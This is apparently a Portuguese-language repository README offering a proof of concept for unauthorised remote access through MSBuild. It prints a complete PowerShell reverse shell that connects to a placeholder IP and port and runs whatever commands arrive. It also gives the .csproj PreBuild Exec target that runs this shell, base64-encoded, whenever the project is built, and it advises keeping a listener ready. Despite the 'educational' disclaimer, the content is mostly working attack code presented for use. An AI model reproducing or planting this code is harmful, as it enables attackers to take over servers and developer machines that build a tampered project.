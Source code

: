 # Advenced Reverse shell C#
Este repositório, contém uma reverse shell escrita em C# comentada com passos que você
deverá fazer para conseguir acesso remoto. Lembrando que a publicação é destinada para fins educacionais.


## Objetivo:
Objetivo deste respositório, é mostrar a POC sobre o ganho de acesso remoto não autorizado
através do compilador MSBuild do Visual Code.


## Processo Geral:
- Verifique se o existe acesso ao MSBuild.
- Verifique as permissões de execução da criação do Projeto.
- Verifique a versão de execução do .NET.

### key Code Features
O código aproveita do arquivo .sln para fazer a execução de código remoto no servidor.

No CSPROJ, existe uma tag em xml que determina quais são as dependencias que o MSBuild terá
que executar antes da compilação do executável. Visando isso, podemos aproveitar desta ação para que
quando o MSBuild passar por ela, execute a nossa reverse shell que neste caso é para o powershell.


ReveseShell: `$client = New-Object System.Net.Sockets.TCPClient("Seu IP",PORTA);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

Após que ajustar a Revershell conforme Seu IP e PORTA, será necessário encodar em base64 para a execução bem sucedida.

Evento que iremos explorar:

`<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
        <Exec Command="powershell -e **encode aqui**"/>
    </Target>`

Quando subir para o servidor e o mesmo compilar este código, atente-se de ter um listening para receber a conexão de volta.


## Créditos
[Microsoft - Build events csharp](https://learn.microsoft.com/pt-br/visualstudio/ide/how-to-specify-build-events-csharp?view=vs-2022)
